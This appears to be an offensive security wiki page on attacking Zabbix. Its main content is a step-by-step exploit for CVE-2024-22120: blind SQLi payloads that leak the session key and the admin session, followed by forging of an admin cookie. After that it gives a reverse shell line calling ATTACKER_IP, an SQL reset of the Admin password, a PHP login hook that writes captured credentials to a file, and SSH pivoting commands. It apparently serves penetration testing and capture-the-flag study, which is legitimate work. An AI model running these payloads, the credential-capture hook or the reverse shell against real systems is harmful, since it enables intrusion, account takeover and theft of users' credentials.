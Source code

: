 # Zabbix Security

## Overview

Zabbix is a monitoring platform exposing a web UI (typically behind Apache/Nginx) and a server component that also talks the Zabbix protocol on TCP/10051 (server/trapper) and agent on TCP/10050. During engagements you may encounter:

- Web UI: HTTP(S) virtual host like zabbix.example.tld
- Zabbix server port: 10051/tcp (JSON over a ZBXD header framing)
- Zabbix agent port: 10050/tcp

Useful cookie format: zbx_session is Base64 of a compact JSON object that includes at least sessionid, serverCheckResult, serverCheckTime and sign. The sign is an HMAC of the JSON payload.

## zbx_session cookie internals

Recent Zabbix versions compute the cookie like:

- data JSON: {"sessionid":"<32-hex>","serverCheckResult":true,"serverCheckTime":<unix_ts>}
- sign: HMAC-SHA256(key=session_key, data=JSON string of data sorted by keys and compact separators)
- Final cookie: Base64(JSON_with_sign)

If you can recover the global session_key and a valid admin sessionid, you can forge a valid Admin cookie offline and authenticate to the UI.

## CVE-2024-22120 — Time-based blind SQLi in Zabbix Server audit log

Affected versions (as publicly documented):

- 6.0.0–6.0.27, 6.4.0–6.4.12, 7.0.0alpha1

Vulnerability summary:

- When a Script execution is recorded into the Zabbix Server audit log, the clientip field is not sanitized and is concatenated into SQL, enabling time-based blind SQLi via the server component.
- This is exploitable by sending a crafted "command" request to the Zabbix server port 10051 with a valid low-privileged sessionid, a hostid the user can access, and a permitted scriptid.

Preconditions and discovery tips:

- sessionid: From guest/login in the web UI, decode zbx_session (Base64) to get sessionid.
- hostid: Observe via web UI requests (e.g., Monitoring → Hosts) or intercept with a proxy; common default is 10084.
- scriptid: Only scripts permitted to the current role will execute; verify by inspecting the script menu/AJAX responses. Defaults like 1 or 2 are often allowed; 3 may be denied.

### Exploitation flow

1) Trigger audit insert with SQLi in clientip

- Connect to TCP/10051 and send a Zabbix framed message with request="command" including sid, hostid, scriptid, and clientip set to a SQL expression that will be concatenated by the server and evaluated.

Minimal message (JSON body) fields:

```json
{
  "request": "command",
  "sid": "<low-priv-sessionid>",
  "scriptid": "1",
  "clientip": "' + (SQL_PAYLOAD) + '",
  "hostid": "10084"
}
```

The full wire format is: "ZBXD\x01" + 8-byte little-endian length + UTF-8 JSON. You can use pwntools or your own socket code to frame it.

2) Time-bruteforce secrets via conditional sleep

Use conditional expressions to leak hex-encoded secrets 1 char at a time by measuring response time. Examples that have worked in practice:

- Leak global session_key from config:

```sql
(select CASE WHEN (ascii(substr((select session_key from config),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```

- Leak Admin session_id (userid=1) from sessions:

```sql
(select CASE WHEN (ascii(substr((select sessionid from sessions where userid=1 limit 1),{pos},1))={ord}) THEN sleep({T_TRUE}) ELSE sleep({T_FALSE}) END)
```

Notes:

- charset: 32 hex chars [0-9a-f]
- Pick T_TRUE >> T_FALSE (e.g., 10 vs 1) and measure wall-clock per attempt
- Ensure your scriptid is actually authorized for the user; otherwise no audit row is produced and timing won’t work

3) Forge Admin cookie

Once you have:

- session_key: 32-hex from config.session_key
- admin_sessionid: 32-hex from sessions.sessionid for userid=1

Compute:

- sign = HMAC_SHA256(key=session_key, data=json.dumps({sessionid, serverCheckResult:true, serverCheckTime:now}, sort by key, compact))
- zbx_session = Base64(JSON_with_sign)

Set the cookie zbx_session to this value and GET /zabbix.php?action=dashboard.view to validate Admin access.

### Ready-made tooling

- Public PoC automates: bruteforce of session_key and admin sessionid, and cookie forging; requires pwntools and requests.
- Parameters to provide typically include: --ip (FQDN of UI), --port 10051, --sid (low-priv), --hostid, and optionally a known --admin-sid to skip brute.

## RCE via Script execution (post-Admin)

With Admin access in the UI, you can execute predefined Scripts against monitored hosts. If agents/hosts execute script commands locally, this yields code execution on those systems (often as the zabbix user on Linux hosts):

- Quick check: run id to confirm user context
- Reverse shell example:

```bash
bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1'
```

TTY upgrade (Linux):

```bash
script /dev/null -c bash
# background with Ctrl+Z, then on attacker terminal:
stty raw -echo; fg
reset
```

If you have DB access, an alternative to forging a cookie is resetting the Admin password to the documented bcrypt for "zabbix":

```sql
UPDATE users SET passwd='$2a$10$ZXIvHAEP2ZM.dLXTm6uPHOMVlARXX7cqjbhM6Fn0cANzkCQBWpMrS' WHERE username='Admin';
```

## Credential capture via login hook (post-exploitation)

If file write is possible on the web UI server, you can temporarily add a logging snippet to /usr/share/zabbix/index.php around the form-based login branch to capture credentials:

```php
// login via form
if (hasRequest('enter') && CWebUser::login(getRequest('name', ZBX_GUEST_USER), getRequest('password', ''))) {
  $user = $_POST['name'] ?? '??';
  $password = $_POST['password'] ?? '??';
  $f = fopen('/dev/shm/creds.txt','a+'); fputs($f, "$user:$password\n"); fclose($f);
  CSessionHelper::set('sessionid', CWebUser::$data['sessionid']);
}
```

Users authenticate normally; read /dev/shm/creds.txt afterwards. Remove the hook when done.

## Pivoting to internal services

Even if the service account shell is /usr/sbin/nologin, adding an SSH authorized_keys entry and using -N -L allows local port-forwarding to loopback-only services (e.g., CI/CD at 8111):

```bash
ssh -i key user@host -N -L 8111:127.0.0.1:8111
```

See more tunneling patterns in: Check [Tunneling and Port Forwarding](../../generic-hacking/tunneling-and-port-forwarding.md).

## Operational tips

- Validate scriptid is permitted for the current role (guest may have a limited set)
- Timing brute can be slow; cache recovered admin sessionid and reuse it
- The JSON sent to 10051 must be framed with the ZBXD\x01 header and a little-endian length

## References

- [HTB Watcher — Zabbix CVE-2024-22120 to Admin/RCE and TeamCity root pivot](https://0xdf.gitlab.io/2025/10/09/htb-watcher.html)
- [CVE-2024-22120-RCE toolkit (PoC scripts)](https://github.com/W01fh4cker/CVE-2024-22120-RCE)

